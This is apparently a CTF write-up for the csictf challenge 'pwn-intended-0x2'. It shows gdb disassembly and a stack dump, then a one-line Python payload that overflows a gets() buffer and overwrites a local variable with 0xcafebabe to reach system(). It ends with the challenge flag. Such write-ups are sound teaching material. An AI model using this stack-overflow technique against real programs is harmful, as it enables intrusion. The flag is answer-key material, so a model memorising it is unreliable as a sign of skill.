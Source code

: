 # pwn-intended-0x2
## Info 

```$ file pwn-intended-0x2
pwn-intended-0x2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter
 /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3fe5fe06984f7093c9122fb1b08fb834a63784d4, 
 for GNU/Linux 3.2.0, not stripped```

 ```
 $checksec pwn-intended-0x2
[*] pwn-intended-0x2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401156 <+0>:	push   rbp
   0x0000000000401157 <+1>:	mov    rbp,rsp
   0x000000000040115a <+4>:	sub    rsp,0x30
   0x000000000040115e <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000401165 <+15>:	mov    rax,QWORD PTR [rip+0x2ef4]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x000000000040116c <+22>:	mov    esi,0x0
   0x0000000000401171 <+27>:	mov    rdi,rax
   0x0000000000401174 <+30>:	call   0x401040 <setbuf@plt>
   0x0000000000401179 <+35>:	mov    rax,QWORD PTR [rip+0x2ef0]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x0000000000401180 <+42>:	mov    esi,0x0
   0x0000000000401185 <+47>:	mov    rdi,rax
   0x0000000000401188 <+50>:	call   0x401040 <setbuf@plt>
   0x000000000040118d <+55>:	mov    rax,QWORD PTR [rip+0x2eec]        # 0x404080 <stderr@@GLIBC_2.2.5>
   0x0000000000401194 <+62>:	mov    esi,0x0
   0x0000000000401199 <+67>:	mov    rdi,rax
   0x000000000040119c <+70>:	call   0x401040 <setbuf@plt>
   0x00000000004011a1 <+75>:	lea    rdi,[rip+0xe60]        # 0x402008
   0x00000000004011a8 <+82>:	call   0x401030 <puts@plt>
   0x00000000004011ad <+87>:	lea    rax,[rbp-0x30]
   0x00000000004011b1 <+91>:	mov    rdi,rax
   0x00000000004011b4 <+94>:	mov    eax,0x0
   0x00000000004011b9 <+99>:	call   0x401060 <gets@plt>
   0x00000000004011be <+104>:	lea    rdi,[rip+0xe6c]        # 0x402031
   0x00000000004011c5 <+111>:	call   0x401030 <puts@plt>
   0x00000000004011ca <+116>:	cmp    DWORD PTR [rbp-0x4],0xcafebabe
   0x00000000004011d1 <+123>:	jne    0x4011f0 <main+154>
   0x00000000004011d3 <+125>:	lea    rdi,[rip+0xe66]        # 0x402040
   0x00000000004011da <+132>:	call   0x401030 <puts@plt>
   0x00000000004011df <+137>:	lea    rdi,[rip+0xe8a]        # 0x402070
   0x00000000004011e6 <+144>:	mov    eax,0x0
   0x00000000004011eb <+149>:	call   0x401050 <system@plt>
   0x00000000004011f0 <+154>:	mov    eax,0x0
   0x00000000004011f5 <+159>:	leave  
   0x00000000004011f6 <+160>:	ret    
End of assembler dump.
```
Here we have gets at <main+99> function which is vulnearable to function .
by using this function we overwrite bytes of data 

We can see that. there is a comparison at <main+116> so we are going to  use
this vulnearbility overwite the varible data which is comparing to 0xcafebabe
so we can easily bypass the check.

```
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7af4264 (<__GI___libc_write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7dd18c0 --> 0x0 
RSI: 0x7ffff7dd07e3 --> 0xdd18c0000000000a 
RDI: 0x1 
RBP: 0x7fffffffdf10 ("MMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
RSP: 0x7fffffffdee0 ("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
RIP: 0x4011f5 (<main+159>:	leave)
R8 : 0xd ('\r')
R9 : 0x7ffff7fe14c0 (0x00007ffff7fe14c0)
R10: 0x3 
R11: 0x246 
R12: 0x401070 (<_start>:	endbr64)
R13: 0x7fffffffdff0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0xa97 (CARRY PARITY ADJUST zero SIGN trap INTERRUPT direction OVERFLOW)
[-------------------------------------code-------------------------------------]
   0x4011e6 <main+144>:	mov    eax,0x0
   0x4011eb <main+149>:	call   0x401050 <system@plt>
   0x4011f0 <main+154>:	mov    eax,0x0
=> 0x4011f5 <main+159>:	leave  
   0x4011f6 <main+160>:	ret    
   0x4011f7:	nop    WORD PTR [rax+rax*1+0x0]
   0x401200 <__libc_csu_init>:	endbr64 
   0x401204 <__libc_csu_init+4>:	push   r15
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdee0 ("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0008| 0x7fffffffdee8 ("CCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0016| 0x7fffffffdef0 ("EEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0024| 0x7fffffffdef8 ("GGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0032| 0x7fffffffdf00 ("IIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0040| 0x7fffffffdf08 ("KKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0048| 0x7fffffffdf10 ("MMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0056| 0x7fffffffdf18 ("OOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x00000000004011f5 in main ()```

when i try to fill stack with values. i found it is 44 

so we can craft our exploit.

``` 
python -c 'print "A"*44 + '\xbe\xba\xfe\xca'' 
```
 
flag  csictf{c4n_y0u_re4lly_telep0rt?}








